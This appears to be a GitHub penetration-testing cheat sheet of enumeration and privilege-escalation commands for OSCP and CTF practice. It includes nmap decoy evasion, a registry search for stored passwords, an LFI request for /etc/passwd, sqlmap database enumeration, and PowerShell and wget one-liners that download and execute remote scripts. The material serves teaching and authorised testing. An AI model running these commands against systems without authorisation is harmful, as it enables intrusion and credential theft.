 # Enumeration-notes
# Comprehensive Enumeration Notes

## **1. Network Enumeration**

### **1.1 Basic Network Scanning**
#### **Nmap Scans**
```bash
nmap -sC -sV -p- -oN full_scan.txt <target_ip>
```
- `-sC` : Runs default scripts
- `-sV` : Version detection
- `-p-` : Scans all 65535 ports
- `-oN` : Saves output

#### **Aggressive Scan**
```bash
nmap -A -T4 <target_ip>
```
- `-A` : Enables OS detection, script scanning, and traceroute
- `-T4` : Faster timing template

#### **Specific Port Scan**
```bash
nmap -p 21,22,80,443 <target_ip>
```

#### **Firewall Evasion**
```bash
nmap -f -D RND:5 <target_ip>
```
- `-f` : Fragment packets
- `-D RND:5` : Use 5 random decoys

### **1.2 Advanced Network Scanning**

#### **Scanning for Live Hosts (Ping Sweep)**
```bash
nmap -sn 10.10.10.0/24
```

#### **Enumerating Open Ports**
```bash
nc -zv <target_ip> 1-65535
```

#### **Banner Grabbing**
```bash
nc -nv <target_ip> <port>
```

#### **SNMP Enumeration**
```bash
snmpwalk -c public -v1 <target_ip>
```

#### **SMB Enumeration**
```bash
smbmap -H <target_ip>
enum4linux -a <target_ip>
```

---

## **2. Web Enumeration**

### **2.1 Directory and File Enumeration**
#### **Gobuster**
```bash
gobuster dir -u http://<target_ip> -w /usr/share/wordlists/dirb/common.txt -x php,txt,html
```

#### **FFUF for Fuzzing**
```bash
ffuf -u http://<target_ip>/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

#### **Nikto (Web Vulnerability Scanner)**
```bash
nikto -h http://<target_ip>
```

### **2.2 CMS Enumeration**
#### **WordPress**
```bash
wpscan --url http://<target_ip> --enumerate u,p
```

#### **Joomla**
```bash
joomscan --url http://<target_ip>
```

---

## **3. System Enumeration**

### **3.1 Linux Enumeration**
#### **Check OS & Kernel Version**
```bash
uname -a
cat /etc/os-release
```

#### **Check SUID Binaries**
```bash
find / -perm -4000 -type f 2>/dev/null
```

#### **Checking Running Processes**
```bash
ps aux
```

### **3.2 Windows Enumeration**
#### **Check User Privileges**
```powershell
whoami /priv
```

#### **Find Stored Credentials**
```powershell
reg query HKLM /f "password" /t REG_SZ /s
```

---

## **4. Privilege Escalation**

### **4.1 Linux PrivEsc**
#### **Find Writable Folders**
```bash
find / -writable -type d 2>/dev/null
```

#### **Check Cron Jobs**
```bash
cat /etc/crontab
```

### **4.2 Windows PrivEsc**
#### **Check Service Misconfigurations**
```powershell
Get-Service | Where-Object {$_.StartMode -eq "Auto"}
```

#### **Find Weak Permissions**
```powershell
icacls C:\Users\*
```

---

## **5. OSCP-Level Enumeration**

### **5.1 Manual Enumeration**
#### **Check for SSH Keys**
```bash
ls -la ~/.ssh/
```

#### **Find Writable Files**
```bash
find / -perm -2 -type f 2>/dev/null
```

### **5.2 Automated Enumeration Tools**
#### **LinPEAS (Linux PrivEsc Script)**
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

#### **WinPEAS (Windows PrivEsc Script)**
```powershell
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEAS.bat')"
```

### **5.3 Exploiting Misconfigurations**
#### **Sudo Exploit (Linux)**
```bash
sudo -l
sudo /bin/bash
```

#### **Unquoted Service Path (Windows)**
```powershell
wmic service get name,displayname,pathname,startmode
```

---

## **6. Fuzzing Techniques**

### **6.1 Burp Suite Intruder**
- Load target URL
- Identify the parameter
- Use wordlist-based fuzzing

### **6.2 SQL Injection Fuzzing**
```bash
sqlmap -u "http://<target_ip>/index.php?id=1" --dbs
```

### **6.3 LFI/RFI Exploitation**
```bash
curl http://<target_ip>/?file=../../../../etc/passwd
```

---

## **Conclusion**
This **detailed enumeration cheat sheet** covers all necessary commands, tools, and techniques required for **network, web, system enumeration, privilege escalation, and OSCP-level enumeration**. Use this as a **quick reference** while solving CTF challenges and real-world pentesting engagements!

---

💡 **Tip:** Always document findings and outputs using:
```bash
tee enumeration_results.txt
```

🚀 Happy Hacking!


